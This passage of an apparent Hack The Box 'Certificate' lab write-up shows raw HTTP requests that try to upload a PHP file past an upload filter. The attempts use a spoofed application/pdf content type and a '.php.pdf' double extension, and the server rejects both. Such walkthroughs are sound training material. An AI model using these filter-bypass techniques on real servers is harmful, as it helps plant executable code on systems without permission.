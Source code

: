 After changing the `Content-Type` header to `application/pdf` we're given an `Invalid Extension` error
```http
POST /upload.php?s_id=5 HTTP/1.1
Host: certificate.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------143484206615462834784169022783
Content-Length: 521
Origin: http://certificate.htb
Connection: keep-alive
Referer: http://certificate.htb/upload.php?s_id=5
Cookie: PHPSESSID=m7mksjqmtkp0ttvrni14u7r3ut
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

-----------------------------143484206615462834784169022783
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-1
-----------------------------143484206615462834784169022783
Content-Disposition: form-data; name="quizz_id"

5
-----------------------------143484206615462834784169022783
Content-Disposition: form-data; name="file"; filename="phpinfo.php"
Content-Type: application/pdf

<?php phpinfo(); ?>

-----------------------------143484206615462834784169022783--
```

![htb-certificate-invalid-ext](images/HTB-certificate/htb-certificate-invalid-ext.png)

Changing the extension gives a `malicious content` exception
```http
POST /upload.php?s_id=5 HTTP/1.1
# ...
-----------------------------226758271610513249181597337783
Content-Disposition: form-data; name="file"; filename="phpinfo.php.pdf"
Content-Type: application/pdf

<?php phpinfo(); ?>

-----------------------------226758271610513249181597337783--
```
